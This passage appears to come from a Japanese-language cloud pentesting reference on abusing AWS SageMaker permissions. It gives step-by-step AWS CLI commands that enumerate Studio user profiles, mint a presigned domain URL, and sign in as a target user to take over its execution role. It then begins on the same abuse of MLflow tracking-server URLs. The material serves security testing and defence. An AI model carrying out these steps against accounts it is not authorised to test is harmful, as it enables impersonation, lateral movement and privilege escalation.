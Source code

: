 Minimal policy example (scoped to one UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
**悪用手順**:

1) 対象にできる Studio Domain と UserProfiles を列挙する
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) unified studio が使用されていないか確認する (attack は従来の SageMaker Studio ドメインでのみ動作します)
```bash
aws sagemaker describe-domain --domain-id <DOMAIN_ID> --query 'DomainSettings'
# If you get info about unified studio, this attack won't work
```
3) Generate a presigned URL (デフォルトで約5分間有効)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
4) 返された URL をブラウザで開き、ターゲットユーザーとして Studio にサインインします。Studio 内の Jupyter ターミナルで、実効的なアイデンティティを確認するか、トークンを exfiltrate します:
```bash
aws sts get-caller-identity
```
Notes:
- `--landing-uri` は省略可能です。いくつかの値（例: `app:JupyterLab:/lab`）は Studio のフレーバー/バージョンによって拒否される場合があります。デフォルトでは通常 Studio のホームにリダイレクトされ、さらに Jupyter に遷移します。
- 組織ポリシーや VPC エンドポイントの制限によりネットワークアクセスがブロックされる可能性があります。トークンの発行にはコンソールのサインインや `iam:PassRole` は不要です。

**Potential Impact**: 許可された ARN を持つ任意の Studio `UserProfile` を引き受け、その `ExecutionRole` とファイルシステム/アプリを継承することで横移動および権限昇格が可能になります。


### `sagemaker:CreatePresignedMlflowTrackingServerUrl`, `sagemaker-mlflow:AccessUI`, `sagemaker-mlflow:SearchExperiments`

対象の SageMaker MLflow Tracking Server に対して `sagemaker:CreatePresignedMlflowTrackingServerUrl`（および後続のアクセスに必要な `sagemaker-mlflow:AccessUI`、`sagemaker-mlflow:SearchExperiments`）を呼び出す権限を持つアイデンティティは、当該サーバーの管理された MLflow UI に直接認証する一回限りの presigned URL を発行できます。これにより、正当なユーザーと同様にサーバーの操作（experiment や run の閲覧/作成、サーバーの S3 アーティファクトストアからのダウンロード/アップロード）が可能になります。
